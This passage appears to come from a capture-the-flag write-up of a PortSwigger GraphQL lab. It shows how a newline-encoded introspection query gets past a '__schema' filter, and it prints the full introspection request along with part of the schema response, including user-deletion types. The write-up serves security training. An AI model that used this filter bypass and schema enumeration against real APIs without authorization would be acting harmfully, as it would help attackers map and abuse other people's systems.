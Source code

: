 **Introspection query with newline (POST request):**
```
{
    "query": "query{__schema
    {queryType{name}}}"
}
```

**Introspection query with newline (GET request):**
```http
GET /api?query={__schema%0a{queryType{name}}} HTTP/2
```

> Note: The `%0a` is URL encoded new line character (`\n`).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-3/images/Pasted%20image%2020230707133501.png)

Nice! We bypassed the `__schema` filter!

**That being said, we can now perform a full introspection query:**
```http
GET /api?query={__schema%0a{types{name,fields{name,args{name,description,type{name,kind,ofType{name,kind}}}}}}} HTTP/2
```

> Query is from [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql#basic-enumeration).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-3/images/Pasted%20image%2020230707134506.png)

**In the response, we found the following type and query:**
```json
{
  "data": {
    "__schema": {
      "types": [
        [...]
        {
          "name": "DeleteOrganizationUserInput",
          "fields": null
        },
        {
          "name": "DeleteOrganizationUserResponse",
          "fields": [
            {
              "name": "user",
              "args": []
            }
          ]
        },
        [...]
        {
          "name": "User",
          "fields": [
            {
              "name": "id",
              "args": []
            },
            {
              "name": "username",
              "args": []
            }
          ]
        },
        [...]
        {
          "name": "mutation",
```